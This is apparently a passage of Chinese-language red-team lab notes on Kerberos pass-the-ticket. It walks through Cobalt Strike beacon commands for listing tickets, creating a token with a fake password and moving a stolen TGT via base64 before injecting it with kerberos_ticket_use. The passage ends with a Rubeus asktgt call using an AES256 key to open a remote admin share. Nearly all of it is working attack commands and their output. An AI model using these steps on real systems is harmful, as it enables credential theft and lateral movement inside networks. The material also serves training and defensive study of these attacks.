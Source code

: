 ```


使用 ```klist``` (or ```execute-assembly Rubeus klist```) 列出所有 Kerberos tickets

```
beacon> run klist
```

使用```make_token```和一个假密码来创建和冒充一个新的登录会话

```
beacon> make_token DEV\jking DummyPass
[+] Impersonated DEV\bfarmer

beacon> run klist

Current LogonId is 0:0x785927

Cached Tickets: (0)
```


在靶机上把jkingTGT.kirbi转成base64
```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```

在kali上根据上面的base64重新生成jkingTGT.kirbi
```
root@kali:~# echo -en "[...ticket...]" | base64 -d > jkingTGT.kirbi
```

使用```kerberos_ticket_use```命令传递TGT

```
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
```

如果当前shell在特权上下文中，rebuse还可以省略一些利用步骤

```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
